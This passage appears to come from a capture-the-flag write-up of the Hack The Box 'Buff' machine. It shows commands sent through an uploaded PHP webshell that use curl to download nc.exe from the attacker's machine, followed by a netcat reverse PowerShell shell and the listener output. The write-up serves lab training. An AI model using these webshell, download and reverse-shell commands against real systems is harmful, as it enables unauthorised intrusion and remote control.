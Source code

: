 The exploit completed successfully and created a webshell.  Next, I had to connect to it by connecting to the file `kamehameha.php` with my command set as the parameter for the variable `telepathy`.  

{% hint style="info" %}
You can use **`curl`**, **`burp`**, or your browser to do this.  I think I used the browser this time and just copied the text to my notes.
{% endhint %}

```text
10.10.10.198:8080//upload/kamehameha.php?telepathy=DIR

PNG  Volume in drive C has no label. Volume Serial Number is A22D-49F7 Directory of C:\xampp\htdocs\gym\upload 22/08/2020 17:19
. 22/08/2020 17:19
.. 22/08/2020 17:19 54 kamehameha.php 22/08/2020 16:43 59,392 nc.exe 22/08/2020 16:55 311,296 plink.exe 3 File(s) 370,742 bytes 2 Dir(s) 7,398,789,120 bytes free
```

Saw `plink.exe` in the directory and didn't recognize the program, so I looked it up.  

* [https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html](https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html)

> Plink is a command-line connection tool similar to UNIX ssh. It is mostly used for automated operations, such as making CVS access a repository on a remote server. Plink is probably not what you want if you want to run an interactive session in a console window

{% hint style="info" %}
I am pretty sure another player uploaded that there at some point, though at the time I had no idea what it was, or what it was used for.  It is a older and perhaps more common version of **`socat`** that is packaged with Putty.
{% endhint %}

```text
GET /upload/kamehameha.php?telepathy=curl.exe+"http%3a//10.10.15.82%3a8090/nc.exe"+-o+nc.exe HTTP/1.1
Host: 10.10.10.198:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: sec_session_id=frdg4eee55pa3lu6ugvu3cnuts
Upgrade-Insecure-Requests: 1
DNT: 1
```

This time I used Burp to send the command to download `nc.exe` to the remote machine from mine using `curl`. 

## Initial Foothold



```text
http://10.10.10.198:8080//upload/kamehameha.php?telepathy=nc.exe%20-e%20powershell.exe%2010.10.15.82%2012346

┌──(zweilos㉿kali)-[~/htb/buff]
└─$ nc -lvnp 12346                                                                                  1 ⨯
listening on [any] 12346 ...
connect to [10.10.15.82] from (UNKNOWN) [10.10.10.198] 51161
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\gym\upload>
```
